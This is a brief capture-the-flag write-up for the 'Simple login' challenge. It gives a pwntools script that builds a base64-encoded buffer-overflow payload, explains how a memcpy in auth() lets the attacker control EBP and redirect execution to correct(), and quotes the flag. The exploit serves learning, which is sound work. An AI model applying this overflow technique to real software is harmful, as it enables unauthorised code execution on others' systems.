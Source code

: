 #### Simple login

```
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~
